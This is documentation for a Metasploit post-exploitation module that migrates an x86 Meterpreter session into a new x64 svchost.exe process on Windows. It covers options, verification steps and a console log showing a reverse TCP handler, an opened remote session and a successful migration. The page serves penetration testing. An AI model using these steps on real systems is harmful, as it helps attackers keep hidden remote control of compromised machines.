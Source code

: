 ## Creating A Testing Environment

To use this module you need an x86 executable type meterpreter on a x64 windows machine.

This module has been tested against:

  1. Windows 10.
  2. Windows 7.
  3. Windows Server 2008R2

This module was not tested against, but may work against:

  1. Other versions of Windows that are x64.

## Options

#### EXE
The executable to start and migrate into. Default: `C:\windows\sysnative\svchost.exe`

#### FALLBACK
If the selected migration executable does not exist, fallback to a sysnative file. Default: `true`

#### IGNORE_SYSTEM
Migrate even if you have SYSTEM privileges. Default: `true`


### Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session with an executable meterpreter via whatever method
  3. Do: `use post/windows/manage/archmigrate`
  4. Do: `set session #`
  5. Do: `run`

## Scenarios

### Windows 10 x64

```
    msf exploit(handler) > run

    [*] Started reverse TCP handler on <MSF_IP>:4567
    [*] Starting the payload handler...
    [*] Sending stage (957487 bytes) to <Win10x64_IP>
    [*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <Win10x64_IP>:50917) at 2017-03-22 11:43:42 -0500

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > background
    [*] Backgrounding session 1...
    msf exploit(handler) > use post/windows/manage/archmigrate
    msf post(archmigrate) > set session 1
    session => 1
    msf post(archmigrate) > run

    [*] The meterpreter is not the same architecture as the OS! Upgrading!
    [*] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] Got pid 1772
    [*] Migrating..
    [+] Success!
    [*] Post module execution completed
    msf post(archmigrate) > sessions -l

    Active sessions
    ===============

      Id  Type                     Information                               Connection
      --  ----                     -----------                               ----------
      1   meterpreter x64/windows  DESKTOP-SO4MCA3\tmoose @ DESKTOP-SO4MCA3  <MSF_IP>:4567 -> <Win10x64_IP>:50917 (<Win10x64_IP>)

    msf post(archmigrate) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```
